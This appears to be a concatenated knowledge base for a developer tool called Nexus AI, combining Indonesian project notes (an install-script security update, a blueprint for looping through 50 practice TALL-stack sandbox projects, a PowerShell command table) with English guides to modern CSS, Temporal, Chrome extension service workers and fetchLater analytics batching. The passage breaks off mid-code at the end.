    *   Penyalinan `README.md` dan `ALGORITMA_INTEGRASI.md` ke dalam folder `nexus/`.

### 2.2 Perubahan pada `install.ps1` (PowerShell Script)
*   **Before**: Script hanya mengunduh dan mengekstrak ZIP repo tanpa pengamanan tambahan.
*   **After**:
    *   Implementasi logika deteksi `.gitignore` dan penambahan entri pengaman.
    *   Pembuatan `.htaccess` secara otomatis menggunakan `Set-Content`.
    *   Penyalinan file panduan ke dalam folder `nexus/` agar folder tersebut mandiri (*self-contained*).

---

## 3. 📦 Struktur Folder Nexus Pasca-Update
Setiap instalasi Nexus kini akan menghasilkan struktur berikut:
```text
project-root/
├── .gitignore (Updated with nexus/)
├── ALGORITMA_INTEGRASI.md (Optional Root Copy)
└── nexus/
    ├── .htaccess (Security Barrier)
    ├── README.md (Self-Contained Guide)
    ├── ALGORITMA_INTEGRASI.md (Self-Contained Guide)
    ├── agent/
    ├── workflow/
    ├── documentation/
    ├── memory/
    └── logs/
```

---

## 4. ✅ Verifikasi & Dampak
1.  **Deployment Safety**: Folder log dan memori kini terlindungi dari *path traversal* via browser.
2.  **Repo Integrity**: Mengurangi risiko "Git Bloat" karena data audit lokal tidak akan masuk ke repositori kecuali dihapus manual dari `.gitignore`.
3.  **Portability**: Folder `nexus/` kini dapat dipindah-pindah dengan tetap membawa panduan pengoperasiannya sendiri.

---

**STATUS: SELESAI DIEKSEKUSI**
**ACTION: Mohon dilakukan Audit terhadap Sinkronisasi ini.**

### 📘 KNOWLEDGE: NEXUS_RECURSIVE_EVOLUTION_ARCHITECT.MD

# 🌀 BLUEPRINT: RECURSIVE EVOLUTION MECHANISM (Mekanisme Evolusi Berantai)

Dokumen ini menjelaskan bagaimana Nexus AI akan menjalankan siklus pengembangan mandiri secara rekursif melintasi daftar 50 proyek PBL.

## 1. Alur Logika (The Infinite Loop)
Nexus akan menjalankan skrip pengontrol (`EvolutionPiper.js`) dengan alur sebagai berikut:

1.  **SCAN**: Membaca `50 project test TALL stack.md` untuk mencari baris `[ ]`.
2.  **SELECT**: Memilih satu proyek (misal: "Project 10: Finance Tracker").
3.  **SPAWN**: Menjalankan perintah shell untuk membuat folder `tests/sandboxes/finance-tracker` dan melakukan `composer create-project`.
4.  **OPERATE**: Menjalankan `node cli.js run --root tests/sandboxes/finance-tracker --yes`.
5.  **HARVEST**: Menjalankan `node cli.js harvest` untuk menarik data ke Golden HUB.
6.  **DISTILL**: Menyaring pengetahuan baru menjadi Skill Item.
7.  **UPDATE**: Mengubah baris di file daftar proyek dari `[ ]` menjadi `[x]` beserta link ke laporan misinya.
8.  **REPEAT**: Kembali ke langkah 1 sampai seluruh 50 proyek selesai.

## 2. Trigger Command (Usulan)
Untuk memicu evolusi berantai ini, Nexus akan memiliki perintah baru:
```bash
node cli.js evolve --board "documentation/planning/50 project test TALL stack.md"
```

## 3. Filosofi "Self-Improvement"
Setiap kali satu proyek selesai (Harvest), Nexus akan menggunakan pengetahuan baru tersebut untuk mengerjakan proyek berikutnya. 
*   **Contoh**: Jika Proyek 9 mengajarkan cara membuat penyingkat URL, maka di Proyek 10, Nexus mungkin akan menggunakan logika *URL validation* yang lebih canggih yang baru saja ia pelajari.

---
*Blueprint ini siap diimplementasikan pada sesi kita berikutnya.*

### 📘 KNOWLEDGE: NEXUS_RESOLUTION-OPTIMIZED-PSEUDO-ELEMENTS.MD

Using resolution-optimized images in CSS pseudo-elements (like `::before` or `::after`) allows you to add decorative icons or structural graphics without cluttering your HTML with extra DOM nodes. By combining pseudo-elements with the `image-set()` CSS function, you can provide the browser with multiple formats (such as AVIF or WebP) and resolutions (like `1x` and `2x`). The browser will automatically choose the most optimal image for the user's device capabilities.

### Implementation

You can use the `image-set()` function directly within the `content` property of a pseudo-element, or within its `background-image` property (while setting `content: ""`). Note that while providing both the image format via `type()` and the resolution (like `1x` or `2x`) yields the best results, both of these arguments are optional.

```css
.icon-button::before {
  /* Using image-set directly in the content property */
  /* MANDATORY: Always order your formats from most optimized (AVIF) to least optimized (JPEG/PNG). 
     The browser will stop at the first supported format. */
  content: image-set(
    url("icon.avif") type("image/avif") 1x,
    url("icon-2x.avif") type("image/avif") 2x,
    url("icon.webp") type("image/webp") 1x,
    url("icon-2x.webp") type("image/webp") 2x,
    url("icon.png") type("image/png") 1x,
    url("icon-2x.png") type("image/png") 2x
  );
  
  display: inline-block;
  margin-right: 8px;
  vertical-align: middle;
}
```

### Fallback strategies

Baseline status for image-set(): Widely available. It's been Baseline since 2023-09-18.
Supported by: Chrome 113 (May 2023), Edge 113 (May 2023), Firefox 89 (Jun 2021), and Safari 17 (Sep 2023).

For older browsers that do not support the `image-set()` function, you **MUST** provide a standard image declaration *before* the `image-set()` rule. This progressive enhancement strategy relies on CSS's cascading nature: unsupported rules are ignored.

```css
.icon-button::before {
  /* MANDATORY: Fallback for browsers that do not support image-set() */
  content: url("icon.png");
  
  /* Modern browsers will apply this and override the fallback */
  content: image-set(
    url("icon.avif") type("image/avif") 1x,
    url("icon-2x.avif") type("image/avif") 2x,
    url("icon.png") type("image/png") 1x,
    url("icon-2x.png") type("image/png") 2x
  );
}
```

### 📘 KNOWLEDGE: NEXUS_SCROLL-POSITION-AWARE-ELEMENTS.MD

## Overview

Improve the user experience of floating buttons, like a "Back to Top" link, by showing them only when they are useful. This guide shows how to build these elements using CSS `container-scroll-state-queries`, which allows styling elements based on the scroll position of their container without relying on JavaScript scroll listeners or observers.

## Implementation

### 1. Establish the Scroll Container

The scroll container must be declared as a scroll-state query container.

```css
.scroller {
  overflow-y: auto;
  /* Establish this element as a scroll-state query container */
  container-type: scroll-state;
}
```

### 2. Style the Floating Element

Place the element inside the container and style it. By default, it should be hidden.

```css
.back-to-top {
  position: sticky;
  bottom: 20px;
  visibility: hidden;
  opacity: 0;
  translate: 0 20px;
  transition:
    visibility 0.3s,
    opacity 0.3s ease,
    translate 0.3s ease;
}
```

> **Important:** Sticky or floating elements hover above the scrollable content. Ensure that the main content has sufficient bottom padding or margin so that the last few elements are not permanently covered by the button when the user scrolls completely to the bottom.

### 3. Respond to the Scroll State

Use the `@container` rule with the `scroll-state` function. To check if the user has scrolled down, check if the container is scrollable to the top.

```css
/* When the container can be scrolled toward the top, it means the user has scrolled down */
@container scroll-state(scrollable: top) {
  .back-to-top {
    visibility: visible;
    opacity: 1;
    translate: 0 0;
  }
}
```

## Fallback strategies

Container scroll-state queries has limited availability.
Supported by: Chrome 133 (Feb 2025) and Edge 133 (Feb 2025).
Unsupported in: Firefox and Safari.

### Basic Fallback
If `container-scroll-state-queries` is not supported, the floating element will remain invisible because of the default `visibility: hidden`. To ensure functionality, you can choose to make the element always visible in unsupported browsers.

```css
/* Fallback for browsers that do not support the feature */
.back-to-top {
  visibility: visible; /* Always visible */
  opacity: 1;
}

/* Override for supported browsers to handle dynamic visibility */
@supports (container-type: scroll-state) {
  .back-to-top {
    visibility: hidden;
    opacity: 0;
  }
  
  @container scroll-state(scrollable: top) {
    .back-to-top {
      visibility: visible;
      opacity: 1;
      translate: 0 0;
    }
  }
}
```

### Advanced Fallback (Intersection Observer)
If dynamic visibility is required, use an `IntersectionObserver` to toggle a class when a sentinel element at the top of the scroller goes out of view.

```html
<!-- Sentinel element placed at the top of the scroller -->
<div class="scroll-sentinel"></div>
```

```css
/* Marker styling to ensure it does not affect layout */
.scroll-sentinel {
  height: 0;
  width: 0;
  visibility: hidden;
}

.scrolled .back-to-top {
  visibility: visible;
  opacity: 1;
  translate: 0 0;
}
```

```javascript
if (!CSS.supports('container-type', 'scroll-state')) {
  const sentinel = document.querySelector('.scroll-sentinel');
  const scroller = document.querySelector('.scroller');

  const observer = new IntersectionObserver((entries) => {
    entries.forEach(entry => {
      // If the sentinel is NOT intersecting, it means the user has scrolled down
      if (!entry.isIntersecting) {
        scroller.classList.add('scrolled');
      } else {
        scroller.classList.remove('scrolled');
      }
    });
  }, { root: scroller });

  observer.observe(sentinel);
}
```

### 📘 KNOWLEDGE: NEXUS_SCROLLABILITY-AFFORDANCE-HINTS.MD

## Overview

Visual hints, like shadows or gradients, help users understand that they can scroll to see more content. This guide shows how to build these hints using CSS `container-scroll-state-queries`, which allows styling elements based on the scrollable state of their container without relying on JavaScript scroll listeners or observers.

## Implementation

### 1. Establish the Scroll Container

The scroll container must be declared as a scroll-state query container.

```css
.scroller {
  overflow-y: auto;
  /* Establish this element as a scroll-state query container */
  container-type: scroll-state;
  position: relative;
}
```

### 2. Style the Indicators

Place the indicator elements (like shadows, gradients, or arrows) inside the container and style them. By default, they should not be visible. When they are shown, they should not be interactive, by setting `pointer-events: none`.

```css
.indicator-top, .indicator-bottom {
  position: sticky;
  left: 0;
  right: 0;
  height: 20px;
  opacity: 0;
  transition: opacity 0.2s;
  pointer-events: none; /* Let clicks pass through */
}

.indicator-top {
  top: 0;
  background: linear-gradient(to bottom, rgba(0,0,0,0.2), transparent); /* Example: Shadow */
}

.indicator-bottom {
  bottom: 0;
  background: linear-gradient(to top, rgba(0,0,0,0.2), transparent); /* Example: Shadow */
}
```

### 3. Query the Scroll State

Use the `@container` rule with the `scroll-state` function. Check if the container is scrollable up or down to show the respective indicator.

```css
/* Show top indicator when the user can scroll up */
@container scroll-state(scrollable: top) {
  .indicator-top {
    opacity: 1;
  }
}

/* Show bottom indicator when the user can scroll down */
@container scroll-state(scrollable: bottom) {
  .indicator-bottom {
    opacity: 1;
  }
}
```

## Fallback strategies

Container scroll-state queries has limited availability.
Supported by: Chrome 133 (Feb 2025) and Edge 133 (Feb 2025).
Unsupported in: Firefox and Safari.

### Basic Fallback
If the feature is not supported, the indicators will remain invisible. Since these are hints and not critical for functionality, it is acceptable to omit them in unsupported browsers.

### Advanced Fallback (Intersection Observer)
If the hints are required, use an `IntersectionObserver` to toggle classes when sentinel elements at the top and bottom of the scroller move in and out of the scrollport.

```html
<!-- Sentinel elements placed at the ends of the scroller -->
<div class="sentinel-top"></div>
<!-- Content goes here -->
<div class="sentinel-bottom"></div>
```

```css
/* Marker styling to ensure it does not affect layout */
.sentinel-top, .sentinel-bottom {
  height: 0;
  width: 0;
  visibility: hidden;
}

.scroller.scrolled-down .indicator-top {
  opacity: 1;
}

.scroller.can-scroll-down .indicator-bottom {
  opacity: 1;
}
```

```javascript
if (!CSS.supports('container-type', 'scroll-state')) {
  const topSentinel = document.querySelector('.sentinel-top');
  const bottomSentinel = document.querySelector('.sentinel-bottom');
  const scroller = document.querySelector('.scroller');

  const observer = new IntersectionObserver((entries) => {
    entries.forEach(entry => {
      if (entry.target === topSentinel) {
        // If top sentinel is not intersecting, we have scrolled down
        scroller.classList.toggle('scrolled-down', !entry.isIntersecting);
      }
      if (entry.target === bottomSentinel) {
        // If bottom sentinel is intersecting, we reached the bottom
        scroller.classList.toggle('can-scroll-down', !entry.isIntersecting);
      }
    });
  }, { root: scroller });

  observer.observe(topSentinel);
  observer.observe(bottomSentinel);
}
```

### 📘 KNOWLEDGE: NEXUS_SEQUENCE-DISTRIBUTED-EVENTS.MD

# Sequencing Distributed Events

High-frequency tracing and event logging in distributed systems require precise timestamps to ensure correct causal ordering. Standard JavaScript `Date.now()` provides millisecond resolution, which can lead to timestamp collisions when multiple events occur within the same millisecond. 

The `Temporal` API, specifically `Temporal.Instant`, provides nanosecond-resolution timestamps, enabling precise sequencing of events without collisions.

## How to Implement

To sequence high-frequency events using `Temporal`:

1. **Capture exact timestamps**: Use `Temporal.Now.instant()` to get the current exact time with nanosecond precision.
2. **Sort events chronologically**: Use `Temporal.Instant.compare(a, b)` to sort event objects. This method resolves ordering differences up to the nanosecond level.
3. **Calculate delays**: Use `Temporal.Instant.prototype.since(other)` to find the precise duration between events.
4. **Serialize for transmission**: Use `Temporal.Instant.prototype.toString()` to convert the timestamp to a standard ISO-8601 string for logging or network transmission.

## Example Code: High-Frequency Event Sequencing

```javascript
// 1. Capture timestamps for incoming events
function recordEvent(eventType, nodeId) {
  return {
    nodeId,
    eventType,
    timestamp: Temporal.Now.instant() // Nanosecond resolution
  };
}

// 2. Sort events chronologically
function sequenceEvents(events) {
  // Always use Temporal.Instant.compare for sorting instants
  return [...events].sort((a, b) => Temporal.Instant.compare(a.timestamp, b.timestamp));
}

// 3. Calculate delays between events
function analyzeTelemetry(sortedEvents) {
  for (let i = 1; i < sortedEvents.length; i++) {
    const prev = sortedEvents[i - 1];
    const curr = sortedEvents[i];
    
    // Calculate difference in nanoseconds
    const duration = curr.timestamp.since(prev.timestamp);
    const nsDiff = duration.total('nanoseconds');
    
    console.log(`Delay between Event ${prev.eventType} and Event ${curr.eventType}: ${nsDiff}ns`);
  }
}
```

## Strategic Implementation & Best Practices

- **DO** use `Temporal.Now.instant()` for server-side tracing or client-side telemetry where millisecond precision is insufficient (e.g., microsecond profiling).
- **DO NOT** use `Date.now()` if you require stable sorting of events that happen back-to-back.
- **DO NOT** use `Temporal.Instant` for wall-clock time display unless you pair it with a time zone (use `Temporal.ZonedDateTime` for localized display).
- **DO** verify that the environment supports `Temporal` before using it natively or providing a fallback.

## Fallback strategies

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

For environments without native support, use a standards-compliant polyfill such as `@js-temporal/polyfill`. Load it conditionally to avoid bloating the payload for modern clients. Note that `@js-temporal/polyfill` does not automatically install a global `Temporal` object, so you must explicitly assign it if you need it globally.

```javascript
(async () => {
  // Check for native support
  if (typeof Temporal === 'undefined') {
    // Dynamically load polyfill using an ESM-compatible CDN
    const module = await import('https://esm.sh/@js-temporal/polyfill');
    // The polyfill does not auto-install globally, so we must assign it
    globalThis.Temporal = module.Temporal;
  }
  
  // Proceed with application logic
})();
```

### 📘 KNOWLEDGE: NEXUS_SERVICE-WORKER.MD

# Service Worker Lifetime & State Management

## The Core Problem

Chrome terminates extension service workers after ~30 seconds of inactivity. Unlike Manifest V2
persistent background pages, you CANNOT rely on in-memory state.

## Rules

1. **Never store state in global variables** — treat every event handler as if the SW just started
2. **Use chrome.storage for all persistent state** — read on demand, write after changes
3. **Use chrome.alarms for timers** — not setTimeout/setInterval (these die with the SW)
4. **Use chrome.storage.session for ephemeral session state** — survives SW restart but not browser restart

## Storage Tier Selection

| Need | Use |
|------|-----|
| Survives browser restart, syncs across devices | `chrome.storage.sync` (8KB/item, 100KB total) |
| Survives browser restart, local only | `chrome.storage.local` (10MB default) |
| Survives SW restart only | `chrome.storage.session` (10MB default) |
| Never persisted (avoid) | Global variables ❌ |

## Pattern: State Read-on-Demand

```js
// ❌ BAD: State in memory
let count = 0;
chrome.webNavigation.onCompleted.addListener(() => {
  count++;
  chrome.action.setBadgeText({ text: String(count) });
});

// ✅ GOOD: State in storage
chrome.webNavigation.onCompleted.addListener(async (details) => {
  if (details.frameId !== 0) return; // Main frame only
  const data = await chrome.storage.local.get({ visitCount: 0 });
  data.visitCount++;
  await chrome.storage.local.set(data);
  chrome.action.setBadgeText({ text: String(data.visitCount) });
});
```

## Pattern: Alarms Instead of Timers

```js
// ❌ BAD: Timer dies when SW terminates
setInterval(() => checkForUpdates(), 60000);

// ✅ GOOD: Alarm persists
chrome.alarms.create('check-updates', { periodInMinutes: 1 });
chrome.alarms.onAlarm.addListener((alarm) => {
  if (alarm.name === 'check-updates') {
    checkForUpdates();
  }
});
```

Minimum alarm interval: 0.5 minutes.

## Pattern: One-Time Initialization

```js
// Set up defaults and context menus on install
chrome.runtime.onInstalled.addListener(async (details) => {
  if (details.reason === 'install') {
    await chrome.storage.local.set({ settings: defaultSettings });
  }
  // Context menus must be re-created (they persist, but re-creating is idempotent)
  chrome.contextMenus.create({
    id: 'myItem',
    title: 'My Context Menu Item',
    contexts: ['selection']
  });
});
```

## Pattern: Keeping the SW Alive (When Necessary)

Occasionally you need the SW alive for a long-running operation. Use one of:

1. **chrome.offscreen** — create an offscreen document for long tasks
2. **Periodic storage writes** — each chrome.storage call resets the idle timer
3. **Active port connections** — an open port keeps the SW alive

```js
// Port-based keepalive from popup/side panel
const port = chrome.runtime.connect({ name: 'keepalive' });
// The SW stays alive as long as this port is open
```

⚠️ Do NOT abuse keepalive patterns. Chrome may enforce stricter limits in future versions.

## Pattern: Event Registration

All event listeners MUST be registered synchronously at the top level of the service worker.
Chrome replays events to a restarted SW, but only for listeners that were registered synchronously.

```js
// ✅ GOOD: Top-level registration
chrome.runtime.onMessage.addListener(handleMessage);
chrome.tabs.onUpdated.addListener(handleTabUpdate);
chrome.webNavigation.onCompleted.addListener(handleNavigation);

// ❌ BAD: Conditional or async registration
async function setup() {
  const { enabled } = await chrome.storage.local.get('enabled');
  if (enabled) {
    chrome.tabs.onUpdated.addListener(handleTabUpdate); // Too late!
  }
}
setup();
```

Instead, register all listeners and check conditions inside them:

```js
chrome.tabs.onUpdated.addListener(async (tabId, changeInfo, tab) => {
  const { enabled } = await chrome.storage.local.get('enabled');
  if (!enabled) return;
  // Process...
});
```

## Date-Based Resets

For daily counters, store the date alongside the count:

```js
function getToday() {
  return new Date().toISOString().split('T')[0]; // "2025-01-15"
}

async function incrementDailyCount() {
  const { dailyCount = 0, countDate = '' } = await chrome.storage.local.get(['dailyCount', 'countDate']);
  const today = getToday();

  if (countDate !== today) {
    // New day — reset
    await chrome.storage.local.set({ dailyCount: 1, countDate: today });
    return 1;
  } else {
    const newCount = dailyCount + 1;
    await chrome.storage.local.set({ dailyCount: newCount });
    return newCount;
  }
}
```

### 📘 KNOWLEDGE: NEXUS_SOFT-EDGE-CONTENT-FADE.MD

## Overview
To apply a transparency gradient to the edges of a container (e.g., to indicate more content is available to scroll or to fade out text), use CSS Masking with a linear gradient. This approach is superior to using a semi-transparent overlay because it actually fades the content itself, allowing the background to show through naturally without interfering with text selection or pointer events.

## Implementation
To implement a soft edge fade:

### Fading the bottom edge of a container
This is useful for indicating that there is more content below in a scrollable area.

```css
.container {
  /* Enable scrolling */
  overflow-y: auto;
  
  /* MANDATORY: Use vendor prefix for wider support in older browsers */
  -webkit-mask-image: linear-gradient(to bottom, black 80%, transparent 100%);
  
  /* Standard property for modern browsers */
  mask-image: linear-gradient(to bottom, black 80%, transparent 100%);
}
```

### Fading both top and bottom edges
You can use a single gradient with multiple color stops to fade both edges.

```css
.dual-fade-container {
  /* Content is visible between 10% and 90% of the height */
  -webkit-mask-image: linear-gradient(to bottom, transparent 0%, black 10%, black 90%, transparent 100%);
  mask-image: linear-gradient(to bottom, transparent 0%, black 10%, black 90%, transparent 100%);
}
```

## Fallback strategies
Baseline status for Masks: Newly available. It's been Baseline since 2023-12-07.
Supported by: Chrome 120 (Dec 2023), Edge 120 (Dec 2023), Firefox 53 (Apr 2017), and Safari 15.4 (Mar 2022).

If a browser does not support `mask-image` or the prefixed version:
- The content will not fade and will display with sharp edges.
- Ensure the interface is still functional and content is readable without the fade (progressive enhancement).
- You can use a semi-transparent overlay as a fallback, but be aware it requires knowing the background color and may interfere with text selection unless `pointer-events: none` is used.

```css
/* Fallback using an overlay for browsers that do not support masking */
@supports (not (mask-image: linear-gradient(to bottom, black, transparent))) and (not (-webkit-mask-image: linear-gradient(to bottom, black, transparent))) {
  .container {
    position: relative;
  }
  
  .container::after {
    content: '';
    position: absolute;
    bottom: 0;
    left: 0;
    right: 0;
    height: 20%;
    /* Fallback assumes a solid background color (e.g., white) */
    background: linear-gradient(to bottom, rgba(255,255,255,0), rgba(255,255,255,1));
    pointer-events: none; /* Allow interaction with text underneath */
  }
}
```

### 📘 KNOWLEDGE: NEXUS_TERMINAL_COMMANDS.MD

# ⌨️ Nexus PowerShell Commands

Gunakan perintah-perintah berikut di PowerShell untuk mengoperasikan Nexus AI secara efisien.

## 🚀 Perintah Utama (Main Shortcuts)

| Tujuan | Perintah |
| :--- | :--- |
| **Buka Nexus (Menu)** | `node agent/main.js` |
| **Jalankan Audit & Plan** | `node agent/main.js run` |
| **Cek Status Sistem** | `node agent/main.js status` |
| **Jalankan 100 Sandbox** | `node agent/main.js sandbox` |
| **Tanya Arsitektur** | `node agent/main.js think "pertanyaan anda"` |

## 🧪 Perintah Sandbox (TALL Stack)

| Tujuan | Perintah |
| :--- | :--- |
| **Section 1 (Fundamental)** | `node agent/main.js sandbox --section 1` |
| **Section 2 (Dashboard)** | `node agent/main.js sandbox --section 2` |
| **Full Distill** | `node agent/main.js sandbox --distill` |

## 🛠 Troubleshooting PowerShell
Jika perintah `nexus` tidak dikenal, gunakan alias sementara ini di sesi PowerShell Anda:
```powershell
function nexus { node "C:\Users\ACER\Desktop\NEXUS AI\agent\main.js" $args }
```

---
*Dokumentasi ini dihasilkan secara otomatis oleh Nexus Engine v3.3.0*

### 📘 KNOWLEDGE: NEXUS_VISUALLY-STABLE-FONT-FALLBACKS.MD

When web fonts load, they often replace a fallback font that has different dimensions, even if both are set to the same `font-size`. This causes "layout shift" (Cumulative Layout Shift) and can make text illegible if the fallback's lowercase letters (x-height) are significantly different than the preferred font.

The `font-size-adjust` property solves this by normalizing the size of the font based on a specific metric (usually the x-height), ensuring that text occupies the same visual space regardless of which font is currently active.

## Implementation steps

### 1. Identify the aspect ratio of your preferred font
To normalize fallbacks, you need the "aspect value" (the ratio of lowercase letters to the font size) of your primary font.

*   **Automatic discovery (Recommended):** Use the `from-font` keyword to let the browser extract the ratio from your primary web font.
*   **Manual calculation:** If you know the specific value (e.g., 0.545 for Verdana), you can provide it directly for more precise control.

### 2. Apply font-size-adjust to the text container
Apply the property to the element or a parent container. This ensures that if the primary font fails to load or is in the process of loading, the fallback font is scaled to match the visual size of the primary font.

```css
.text-content {
  /* Define your font stack as usual */
  font-family: "MyWebFont", "Arial", sans-serif;
  font-size: 1rem;

  /* MANDATORY: Normalize the font size based on the primary font's x-height.
     This ensures that if 'Arial' is used as a fallback, it is scaled 
     to match the x-height of 'MyWebFont'. */
  font-size-adjust: from-font;
}
```

### 3. (Optional) Adjust for specific metrics
While x-height is the default and most common, you can normalize by other metrics like `cap-height` (useful for all-caps headers) or `ch-width` (useful for monospaced fonts).

```css
h1 {
  /* Normalize based on the height of capital letters */
  font-size-adjust: cap-height from-font;
}
```

### 4. Verify visual stability
Ensure that the `font-size-adjust` value correctly aligns the fallback. You can test this by temporarily blocking the web font or adjusting the `font-family` declaration in your browser's DevTools and verifying that the text layout remains stable.

## Fallback strategies

Baseline status for font-size-adjust: Newly available. It's been Baseline since 2024-07-25.
Supported by: Chrome 127 (Jul 2024), Edge 127 (Jul 2024), Firefox 118 (Sep 2023), and Safari 17 (Sep 2023).

In browsers that do not support `font-size-adjust`, the font will be rendered at its default scale. This may result in layout shifts or changes in readability during font swaps. 

To mitigate this without `font-size-adjust`, you can use the `@font-face` descriptors `size-adjust`, `ascent-override`, and `descent-override` to manually tune fallback fonts, though these are more complex to calculate than a single `font-size-adjust` value.

### 📘 KNOWLEDGE: NEXUS_VISUALLY-STABLE-MIXED-FONTS.MD

When mixing different font families, for instance when inserting inline code snippets, or switching out font families for different themes, differences in "x-height" (the height of lowercase letters) can make one font appear much smaller or larger than the other font. This can lead to poor legibility and layout shifts.

The `font-size-adjust` property allows you to normalize the visual size of text by adjusting the font size based on a specific font metric (usually the x-height).

### Implementation Steps

1.  **MANDATORY**: Apply `font-size-adjust` to elements where font consistency is critical, such as containers using web fonts or blocks with mixed font families.
2.  **MANDATORY**: Use the `from-font` keyword on elements to automatically match font size in nested elements to the proportions of the primary font.
3.  **MANDATORY**: Use a specific numeric aspect-ratio override value for `font-size-adjust` (e.g., `font-size-adjust: 0.5`) to normalize proportions independently when the font proportions to base on are from different themes.

### Example: Normalizing x-height automatically

Using `from-font` is the most robust approach. It extracts the aspect ratio of the x-height from the first available font and applies it to fonts in child elements.

```css
.content-area {
  font-family: "MyCustomWebFont";
  /* Automatically extract and apply x-height ratio from MyCustomWebFont */
  font-size-adjust: from-font;
}
.content-area span{
  font-family: "MyOtherCustomWebFont"
}
```

### Example: Specifying a specific x-height

When the font to adjust is not a child of the font to base the size on, specify a value to adjust the x-height by.

```css
.theme{
  font-family: Verdana, sans-serif;
}
.theme.alternate{
  font-family: Times;
  /* Set to the aspect ratio (x-height / font-size) of the primary font */
  font-size-adjust: 0.51;
}
```

### Fallback strategies

Baseline status for font-size-adjust: Newly available. It's been Baseline since 2024-07-25.
Supported by: Chrome 127 (Jul 2024), Edge 127 (Jul 2024), Firefox 118 (Sep 2023), and Safari 17 (Sep 2023).

**MANDATORY**: In browsers that do not support `font-size-adjust`, fonts will render at their natural `font-size` value. You must provide a valid fallback strategy for non-supporting browsers using a `@supports` block to mitigate this:

- Use `@supports not (font-size-adjust: from-font)` to detect `font-size-adjust` support and provide fallback styles (e.g. adjusted line-height or font-size).
- Choose fonts with similar x-heights to your primary font.
- Apply specific `font-size` and `line-height` overrides for alternate and nested font families.

```css
/* Feature detection for font-size-adjust */
@supports not (font-size-adjust: from-font) {
  .content-area {
    /* Manual adjustment for browsers without support (if needed) */
    line-height: 1.6;
    font-size: 1.2rem;
  }
}
```

### 📘 KNOWLEDGE: NEXUS_VISUALLY-TEXTURE-CONTENT.MD

## Overview
To apply realistic weathering or texture patterns (like grunge, noise, or paper texture) to an element, use CSS Masking (`mask-image`) with a repeating texture image. This allows you to make the content itself appear textured by making parts of it semi-transparent, rather than just overlaying a texture on top. This creates a more realistic physical material appearance.

## Implementation
To apply a texture pattern:

### Method 1: Using a repeating raster image (Recommended for realistic textures)
This is the most common method for realistic textures.

```css
.weathered-element {
  /* MANDATORY: Use vendor prefix for wider support in older browsers */
  -webkit-mask-image: url('grunge-pattern.png');
  -webkit-mask-repeat: repeat; /* Repeat the pattern to fill the area */
  -webkit-mask-size: 300px; /* Control the scale of the texture */

  /* Standard property for modern browsers */
  mask-image: url('grunge-pattern.png');
  mask-repeat: repeat;
  mask-size: 300px;
}
```

### Method 2: Using CSS Gradients for geometric patterns
You can generate patterns using CSS gradients. This is self-contained and does not require external image files.

```css
.patterned-element {
  --checkerboard-gradient: 
    linear-gradient(45deg, #000 25%, transparent 25%), 
    linear-gradient(-45deg, #000 25%, transparent 25%), 
    linear-gradient(45deg, transparent 75%, #000 75%), 
    linear-gradient(-45deg, transparent 75%, #000 75%);

  /* Apply a checkerboard pattern as a mask */
  -webkit-mask-image: var(--checkerboard-gradient);
  -webkit-mask-size: 20px 20px;
  -webkit-mask-position: 0 0, 0 10px, 10px -10px, -10px 0px;
  
  mask-image: var(--checkerboard-gradient);
  mask-size: 20px 20px;
  mask-position: 0 0, 0 10px, 10px -10px, -10px 0px;
}
```

### Alpha vs Luminance Masking Modes

By default, CSS masks use `mask-mode: match-source`. This means the browser automatically decides whether to use the **alpha channel** (transparency) or the **luminance** (brightness) of the mask based on what kind of source you provide:

| Mask Source Type | Default Mask Mode | Masking Behavior |
| :--- | :--- | :--- |
| **Inline SVG `<mask>` element** | `luminance` | Opacity is determined by the brightness of colors. **White** reveals content, **black** hides it, and **gray** creates semi-transparency. |
| **Direct Image File** (e.g. PNG, SVG file) | `alpha` | Opacity is determined by transparency. **Opaque** parts reveal content, and **transparent** parts hide it. |
| **CSS Gradient** | `alpha` | Opacity is determined by transparency. **Opaque** colors (like `black`) reveal content, and **transparent** colors hide it. |

> **Note:** You can explicitly override the default mask mode using the `mask-mode` CSS property (e.g., `mask-mode: luminance;` or `mask-mode: alpha;`).

## Fallback strategies
Baseline status for Masks: Newly available. It's been Baseline since 2023-12-07.
Supported by: Chrome 120 (Dec 2023), Edge 120 (Dec 2023), Firefox 53 (Apr 2017), and Safari 15.4 (Mar 2022).

If a browser does not support `mask-image` or the prefixed version:
- The element will display without the texture (clean and solid fill).
- Ensure the content is still readable without the texture (progressive enhancement).
- You can use a background image or an overlay as a fallback to simulate the texture, although it will not affect the transparency of the content itself.

```css
/* Fallback: Use a background image for browsers without mask support */
@supports (not (mask-image: url(x))) and (not (-webkit-mask-image: url(x))) {
  .weathered-element {
    /* Fallback adds texture on top or behind, depending on implementation */
    background-image: url('grunge-pattern.svg');
    background-color: #fff; /* Ensure background is solid if needed */
  }
}
```

### 📘 KNOWLEDGE: NEXUS_BATCH-ANALYTICS-EVENTS.MD

# Debounce and batch multiple analytics events
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Most analytics and telemetry data is low priority and you can safely defer sending it until the user leaves the page. The exception to this is if you need to deliver real-time updates, in which case timeliness matters.

The optimal way to provide real-time analytics updates, while still minimizing beacons, is to use `fetchLater()` with the `activateAfter` configuration option. This allows you to effectively debounce and batch all analytics events that occur within a given time window into a single beacon, that is reliably sent even if the user leaves the page before the timeout expires.

## How to implement

1. **Schedule the request:** As soon as any relevant analytics data is available, call `fetchLater()` with your data payload and pass an `activateAfter` value. This queues the data to be sent after that amount of time passes, or if the user leaves the page beforehand.

2. **Batch multiple events together:** If a new analytics event occurs before the `activateAfter` timeout expires, abort the previously scheduled request and call `fetchLater()` again (with the same `activateAfter` value) with the full event queue in a single payload.

3. **Reset the event queue when the timeout expires:** If a new analytics event occurs after the scheduled beacon has successfully sent (i.e. the `fetchLater()` result's `activated` value is `true`), reset the event queue.

3. **Let the browser handle the rest:** If the user navigates away or closes the tab before the `activateAfter` timeout expires, the browser will still reliably send the payload from your most recent `fetchLater()` call.

## Example code

This code tracks all `load` and `click` events on a page, and batches together all events that occur within a 10-second timeout.

```javascript
// Replace with your analytics endpoint.
const ANALYTICS_ENDPOINT = '/path/to/analytics/endpoint';

// Replace with a time window of your choice. All analytics events that
// occur within this time window will be batched together.
const BATCH_WINDOW = 10 * 1000;

// The maximum number of events to batch. Pick a number that is unlikely
// to overflow the fetchLater() quota for the page.
const MAX_QUEUE_SIZE = 100;

const eventQueue = [];
let fetchLaterResult;
let fetchLaterController;

function trackEvent(eventData) {
  // If the previously queued beacon has already been sent, or if the
  // max queue size has been met, reset the queue.
